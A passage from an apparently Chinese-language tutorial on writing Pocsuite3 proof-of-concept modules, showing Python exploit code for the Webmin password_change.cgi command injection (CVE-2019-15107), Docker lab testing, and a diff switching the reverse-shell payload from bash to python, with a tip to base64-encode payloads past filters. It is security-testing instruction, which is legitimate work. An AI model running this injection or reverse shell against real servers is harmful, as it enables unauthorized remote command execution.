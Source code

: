     headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Referer': f'{self.url}/session_login.cgi'
    }
    payload = f'user=rootxx&pam=&expired=2&old=test|{param}&new1=test2&new2=test2'
    res = requests.post(f'{self.url}/password_change.cgi', headers=headers, data=payload)
    logger.debug(res.text)
    return res.text.split('The current password is incorrect')[-1].split('</h3></center>')[0]
```  
  
  
然后就是搭建 docker 靶场测试了  
，docker run -it --rm -p 10000:10000 pocsuite3/cve-2019-15107  
。  
  
  
verify 模式 ok：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1MbPOQmM0ZvzkXgtdfHn4ZJkmenHCVO3gtibLV0ffjyHO48qDiaRxB8ofAX9YIHLeajCfTd1RicWIzw/640?wx_fmt=png "")  
  
  
attack 模式获取命令行参数执行并返回结果  
，  
--options  
 参数  
可以查看 PoC 定义的额外命令行参数：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1MbPOQmM0ZvzkXgtdfHn4Z5V06FUYQiasTuicn093hFrxibtjkkgM14k8BW3HfqicQLrhh9Ut1QYofibA/640?wx_fmt=png "")  
  
  
shell 模式用 bash 的反连回不来，未深究，改用 python 的就可以了。需要注意的是，由于反连 payload 存在一些特殊字符，需要结合漏洞具体情况具体分析，比如使用 base64 编码等绕过限制。  
  
```
     def _shell(self):
         try:
-            self._exploit(REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port()))
+            self._exploit(REVERSE_PAYLOAD.PYTHON.format(get_listener_ip(), get_listener_port()))
         except Exception:
             pass
```  
  
  
shell 模式 ok：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1MbPOQmM0ZvzkXgtdfHn4ZPia1Hwiblm1k0mLOFLhnYQopDB1RE6ib5YBU9eJPHLtSA3y5YSZkzCFvQ/640?wx_fmt=png "")  
##   
  
**5.4**  
  
## mongo-express 认证远程代码执行漏洞  
## （CVE-2019-10758）  
  
  
  
**漏洞细节：mongo-express远程代码执行漏洞（CVE-2019-10758）**  
  
**链接：https://www.seebug.org/vuldb/ssvid-98116**  
```